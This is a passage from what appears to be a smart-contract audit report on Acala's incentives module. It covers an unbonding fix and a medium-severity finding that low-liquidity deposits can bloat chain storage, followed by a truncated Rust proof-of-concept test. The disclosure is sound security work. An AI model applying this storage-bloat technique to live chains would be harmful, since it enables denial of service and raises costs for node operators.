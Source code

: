 For `unbond_instant`, the `final_amount` should not be used to remove the shares, but `change.change` should be used instead.

**[xlc (Acala) confirmed and commented](https://github.com/code-423n4/2024-03-acala-findings/issues/24#issuecomment-2046469357):**
 > See the fix [here](https://github.com/AcalaNetwork/Acala/pull/2735).

***

## [[M-04] Storage can be bloated with low liquidity positions](https://github.com/code-423n4/2024-03-acala-findings/issues/17)
*Submitted by [ZanyBonzy](https://github.com/code-423n4/2024-03-acala-findings/issues/17), also found by [Bauchibred](https://github.com/code-423n4/2024-03-acala-findings/issues/19) and [carrotsmuggler](https://github.com/code-423n4/2024-03-acala-findings/issues/9)*

The `deposit_dex_share` function enforce no minimum amount that can be deposited into the pool allows for creating multiple pool positions. This causes that in a coordinated effort, for a pretty cheap cost, users/attackers can create multiple low liquidity positions to bloat the runtime storage. This is very important as substrate framework requires optimization of storage to prevent bloat which can lead to high maintenance costs for the chain and a potential DOS. A more in detail explanation can be found [here](https://docs.substrate.io/build/troubleshoot-your-code/#storage).

### Proof of Concept

The test case below shows how a user can create multiple 1 wei positions, and it can be added to [test.rs](https://github.com/code-423n4/2024-03-acala/blob/main/src/modules/incentives/src/tests.rs).

```rust
#[test]
fn open_low_liquidity_positions() {
	ExtBuilder::default().build().execute_with(|| {
		assert_ok!(TokensModule::deposit(BTC_AUSD_LP, &ALICE::get(), 1000000000));
		assert_eq!(TokensModule::free_balance(BTC_AUSD_LP, &ALICE::get()), 1000000000);
		assert_eq!(
			TokensModule::free_balance(BTC_AUSD_LP, &IncentivesModule::account_id()),
			0
		);
		assert_eq!(RewardsModule::pool_infos(PoolId::Dex(BTC_AUSD_LP)), PoolInfo::default(),);
		assert_eq!(
			RewardsModule::shares_and_withdrawn_rewards(PoolId::Dex(BTC_AUSD_LP), ALICE::get()),
			Default::default(),
		);
		assert_ok!(IncentivesModule::deposit_dex_share(
			RuntimeOrigin::signed(ALICE::get()),
			BTC_AUSD_LP,
			1
		));
		assert_ok!(IncentivesModule::deposit_dex_share(
			RuntimeOrigin::signed(ALICE::get()),
			BTC_AUSD_LP,
			1
		));
		assert_ok!(IncentivesModule::deposit_dex_share(
			RuntimeOrigin::signed(ALICE::get()),
			BTC_AUSD_LP,
			1
		));
		assert_eq!(TokensModule::free_balance(BTC_AUSD_LP, &ALICE::get()), 999999997);
		assert_eq!(
			TokensModule::free_balance(BTC_AUSD_LP, &IncentivesModule::account_id()),
			3
		);
		assert_eq!(
			RewardsModule::pool_infos(PoolId::Dex(BTC_AUSD_LP)),
```